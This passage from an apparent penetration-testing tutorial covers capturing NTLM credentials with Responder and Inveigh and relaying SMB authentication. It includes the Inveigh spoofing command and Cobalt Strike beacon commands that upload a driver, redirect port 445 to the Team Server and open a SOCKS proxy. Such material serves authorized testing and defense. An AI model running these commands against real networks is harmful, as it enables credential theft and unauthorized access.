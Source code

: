 ### Capturing Credentials with Responder

- Responder will impersonate services using the above-mentioned protocols, capturing credentials (usually NTLMv2 Challenge/Response) when a user attempts to authenticate against the spoofed services.
- Attempts can be made to downgrade to NetNTLMv1 or disable ESS for easier credential cracking.

It's crucial to note that employing these techniques should be done legally and ethically, ensuring proper authorization and avoiding disruption or unauthorized access.

## Inveigh

Inveigh is a tool for penetration testers and red teamers, designed for Windows systems. It offers functionalities similar to Responder, performing spoofing and man-in-the-middle attacks. The tool has evolved from a PowerShell script to a C# binary, with [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) and [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) as the main versions. Detailed parameters and instructions can be found in the [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Inveigh can be operated through PowerShell:

```bash
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```

Or executed as a C# binary:

```bash
Inveigh.exe
```

### NTLM Relay Attack

This attack leverages SMB authentication sessions to access a target machine, granting a system shell if successful. Key prerequisites include:

- The authenticating user must have Local Admin access on the relayed host.
- SMB signing should be disabled.

#### 445 Port Forwarding and Tunneling

In scenarios where direct network introduction isn't feasible, traffic on port 445 needs to be forwarded and tunneled. Tools like [**PortBender**](https://github.com/praetorian-inc/PortBender) help in redirecting port 445 traffic to another port, which is essential when local admin access is available for driver loading.

PortBender setup and operation in Cobalt Strike:

```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
